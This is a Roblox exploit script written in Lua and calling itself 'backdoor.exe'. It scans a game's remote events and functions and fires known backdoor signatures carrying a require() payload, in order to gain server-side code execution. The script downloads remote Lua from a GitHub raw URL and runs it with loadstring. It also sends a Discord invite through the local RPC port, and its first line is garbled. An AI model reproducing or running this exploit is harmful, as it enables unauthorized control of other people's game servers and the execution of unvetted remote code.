 local dateTimeNow = DateTimlocale.now
local tableFind = table.find
local taskSpawn = task.spawn
local taskWait = task.wait
local stringRep = string.rep

local RobloxReplicatedStorage = game:GetService("RobloxReplicatedStorage")
local ReplicatedStorage = game:GetService("ReplicatedStorage")
local JointsService = game:GetService("JointsService")
local StarterGui = game:GetService("StarterGui")

local LocalPlayer = game:GetService("Players").LocalPlayer
local requireScript = ("require(9324099025).k4scripts('%s', %s) -- "):format(LocalPlayer.Name, "true", string.rep("!", 2400)) -- set true to false to disable logging, we add a filler so that the backdoor code won't be send to the chat, by default, only message with 200 characters (or 1,200 bytes) can be send, we multipy it by 2 to be safe.
local invCode = "6HndYgC"

local alternativeSS = {
	run = { [1] = "5#lGIERKWEF" },
	emma = { [1] = "pwojr8hoc0-gr0yxohlgp-0feb7ncxed", [2] = ",,,,,,,,,,,,,,," },
	helpme = { [1] = "helpme" },
	pickett = { [1] = "cGlja2V0dA==" },
	harked = "https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/harkedSS.lua"
}

local function notify(text)
	StarterGui:SetCore(
		"SendNotification",
		{
			Title = "backdoor.exe",
			Duration = 3,
			Text = text
		}
	)
end

local function attached(possibleWait)
	local PlayerGui =  LocalPlayer.PlayerGui
    
	if possibleWait then
		local start = dateTimeNow().UnixTimestampMillis
		local possibleWait = possibleWait * 1000
		while PlayerGui and not PlayerGui:FindFirstChild("backdoor.exe") and (possibleWait > dateTimeNow().UnixTimestampMillis - start) do
			taskWait()
		end
	end

	return PlayerGui and PlayerGui:FindFirstChild("backdoor.exe")
end

local function validRemote(rm)
	local Parent = rm.Parent

	if getgenv().blacklisted then
		if tableFind(getgenv().blacklisted, rm:GetFullName()) then return false end
	end

	if Parent then
		if Parent == JointsService then return false end
        
        -- Addonis Check
		if (Parent == ReplicatedStorage and rm:FindFirstChild("__FUNCTION")) or
        (rm.Name == "__FUNCTION" and Parent.ClassName == "RemoteEvent" and Parent.Parent == ReplicatedStorage) then return false end

-- 		if (Parent.ClassName == "Folder" and Parent.Name == "DefaultChatSystemChatEvents" and Parent.Parent == ReplicatedStorage) then return false end
	end

	if rm:IsDescendantOf(RobloxReplicatedStorage) then return false end

	return true
end

local function harked()
	local backpack = LocalPlayer.Backpack 
	return backpack:FindFirstChild("HandlessSegway") and
		backpack.HandlessSegway:FindFirstChild("RemoteEvents") and
		backpack.HandlessSegway.RemoteEvents:FindFirstChild("DestroySegway")
end
local function emmaBackdoor(rm)
	local Parent = rm.Parent
	return rm.Name == "emma" and Parent and Parent.Name == "mynameemma" and Parent.Parent == ReplicatedStorage
end

local function runBackdoor(rm)
	local Parent = rm.Parent
	return rm.Name == "Run" and Parent and
		Parent:FindFirstChild("Pages") and Parent:FindFirstChild("R6") and
		Parent:FindFirstChild("Version") and Parent:FindFirstChild("Title")
end

local function httpRequest(url)
	if syn and syn.request then return syn.request({Url=url}).Body
	elseif request then return request({Url=url}).Body
	else return game:HttpGetAsync(url) end
end

local function scanGame()
	notify("Scanning for a backdoor.")

	if harked() then
		loadstring(httpRequest(alternativeSS.harked))()
		return
	end

	do
		local DescendantsList = game:GetDescendants()
		for index=1, #DescendantsList do
			if attached() then break end
			local remote = DescendantsList[index]

			if not validRemote(remote) then continue end
			if remote.ClassName ~= "RemoteEvent" then continue end

			if emmaBackdoor(remote) then
				remote:FireServer(unpack(alternativeSS.emma), requireScript)
			end
			if not attached() and runBackdoor(remote) then
				remote:FireServer(unpack(alternativeSS.run), requireScript)
			end

			if not attached() then remote:FireServer(unpack(alternativeSS.helpme), requireScript) end
			if not attached() then remote:FireServer(unpack(alternativeSS.pickett), requireScript) end
			if not attached() then remote:FireServer(requireScript) end

		end
		if attached() then return end

		for index=1, #DescendantsList do
			if attached() then break end
			local remote = DescendantsList[index]

			if not validRemote(remote) then continue end
			if remote.ClassName ~= "RemoteFunction" then continue end

			local waiting = true
			taskSpawn(function()
				remote:InvokeServer(requireScript)
				waiting = nil
			end)

            -- If RemoteFunction don't respond in 1 second, we skip this one.
			local start = dateTimeNow().UnixTimestampMillis
			while waiting and 1000 > dateTimeNow().UnixTimestampMillis - start do
				taskWait()
			end

		end
	end
end

local function Main()
	local function promtDicordInvite()
    	local httpService = game:GetService("HttpService")
    	local httpRequest = (syn and syn.request) or (httpService and httpService.request) or (http_request)
    
    	if not httpRequest then print("Exploit not supported. No HTTP found.") return end
    	
    	    httpRequest({
        		Url = "http://127.0.0.1:6463/rpc?v=1",
        		Method = "POST",
        
        		Headers = {
        			['Content-Type'] = 'application/json',
        			Origin = 'https://discord.com'
        		},
        
        		Body = httpService:JSONEncode({
        			cmd = 'INVITE_BROWSER',
        			nonce = httpService:GenerateGUID(false),
        			args = {code = invCode}
        		})
        	})
	end
	local Bindable = Instance.new("BindableFunction")
	Bindable.OnInvoke = promtDicordInvite
	StarterGui:SetCore(
		"SendNotification",
		{
			Title = "Discord Server",
			Duration = 10,
			Text = "Join for more backdoored games!",
			Button1 = "Join",
			Callback = Bindable
		}
	)

	scanGame()

	if not attached(3.5) then
		notify("Unable to find backdoor.\nGame not backdoored?")
	end
end

if game:IsLoaded() then
	pcall(Main)
end

--	k4scripts
--	.------.
--	|4.--. |
--	| :│/: |
--	| :│\: |
--	| '--'4|
--	`------'
